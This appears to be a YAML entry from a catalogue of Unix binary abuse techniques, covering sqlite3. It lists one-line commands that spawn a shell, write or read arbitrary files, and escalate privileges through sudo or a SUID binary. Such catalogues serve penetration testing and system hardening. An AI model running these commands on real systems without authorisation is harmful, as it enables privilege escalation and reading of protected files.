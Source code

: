 ```yaml
---
name: sqlite3
functions:
  shell:
    - code: sqlite3 /dev/null '.shell /bin/sh'
  file-write:
    - code: |
        LFILE=file_to_write
        sqlite3 /dev/null -cmd ".output $LFILE" 'select "DATA";'
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  sudo:
    - code: sudo sqlite3 /dev/null '.shell /bin/sh'
  limited-suid:
    - code: "./sqlite3 /dev/null '.shell /bin/sh'"
---
```

